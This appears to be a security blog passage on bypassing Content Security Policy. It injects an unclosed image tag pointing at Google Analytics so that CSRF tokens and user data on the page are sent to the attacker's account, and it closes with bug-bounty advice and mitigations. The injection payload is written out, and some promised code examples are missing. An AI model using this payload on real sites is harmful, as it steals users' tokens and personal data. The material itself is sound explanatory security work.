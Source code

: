 About a year ago Github (with help from Cure53) decided to investigate their own CSP policy. They published all their findings on their blog, and we chose to focus on one of the things brought up there.

If an attacker finds an HTML injection on your website and you allow Google Analytics in the CSP, they are able to inject an image making an event request to Google Analytics similar to what we described earlier.

This becomes a potential issue when you consider what happens if we do not close the image tag.

If a legit request looks like this:

<img src=’https://www.google-analytics.com/collect?v=1&tid=UA-55300588-1&cid=3121525717&t=event&ec=email&el=2111515817&cs=newsletter&cm=email&cn=062413&cm1=1&ea=test’>

Imagine if we injected this:

<img src=’https://www.google-analytics.com/collect?v=1&tid=UA-55300588-1&cid=3121525717&t=event&ec=email&el=2111515817&cs=newsletter&cm=email&cn=062413&cm1=1&ea=test

(compared to the first code snippet, this lacks the last few characters)

The browser will understand it as a picture, and take everything until the next quote in the code as part of the URL. This will all be sent to the attacker, who can login to their Google Analytics account and see the results.
Impact
Tokens or user data

The most common issue occurs if the code sent to attackers includes CSRF tokens, or personal information in general.

To understand the issue better, imagine that we got this awesome service that you need an invite to register for, the code would look like this:

Now, the CSP is so strict that the only thing we can do is inject HTML (no JavaScript) but also load images from google-analytics.com. We simply inject a non-closed img-tag to google-analytics.com, so it looks like this:

We can use the developer tools in Firefox to confirm that the request did indeed include the token.

Bug Bounties

For those out there doing bug bounties, techniques like these could increase the award as you have proved some real impact and are not getting blocked due to CSP.

With that said, before sending mass reports to everyone, read up whether CSP issues are in scope! Many do not consider CSP bypasses themselves as in scope, while others do. HackerOne has paid bounty for this and Github explicitly invites researcher to break their CSP-policy.
Mitigations

To fix the Google Analytics issue, change from using image requests to instead using XHR requests. After doing this, you can safely remove Google Analytics from the img-src in the CSP policy.

As for the bigger picture, look at every service included in the CSP policy and think what could be done to exploit it. Can information somehow be submitted to it, that can then be read by the hacker? Also, try to limit the amount of third parties included as much as possible.

Chrome has taken additional steps to protect against this by blocking requests that contain both a newline and typical HTML characters. However, such protections do not exist in FireFox or Safari so it is still possible to exploit.
Takeaway

